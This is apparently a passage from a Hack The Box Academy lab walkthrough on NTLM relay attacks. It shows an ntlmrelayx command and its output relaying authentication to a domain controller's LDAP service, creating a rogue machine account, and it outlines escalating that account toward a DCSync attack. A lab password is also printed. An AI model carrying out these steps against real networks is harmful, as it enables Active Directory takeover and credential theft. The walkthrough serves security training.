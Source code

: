 Code: shell

```shell
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'Academy-Student'
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'Academy-Student'
[sudo] password for htb-student: HTB_@cademy_stdnt!
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
```

After a few moments, they will notice a privileged enough authentication has been relayed and a computer account has been successfully created.

```shell-session
<SNIP>
[*] HTTPD(80): Authenticating against [ldap://172.16.117.3](ldap://172.16.117.3) as INLANEFREIGHT/CJAQ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
<SNIP>
[*] Attempting to create computer in: CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] Adding new computer with username: Academy-Student$ and password: tnQiJcs1OcN9oLE result: OK
<SNIP>
```

Once the students have successfully added a new computer account in the domain, they will have to utilize `ntlmrelayx` to escalate the privileges of the added computer account, allowing the computer account administrative rights/permissions (replication rights) to make a `DCSync` attack. Students will have to target the `ldap` protocol and the domain controller (`172.16.117.3`) with the options: `-smb2support` to support SMB2 if required, `--escalate-user` to escalate the privileges of the user, and the `--no-dump` to disable the dumping of the `LDAP` information.
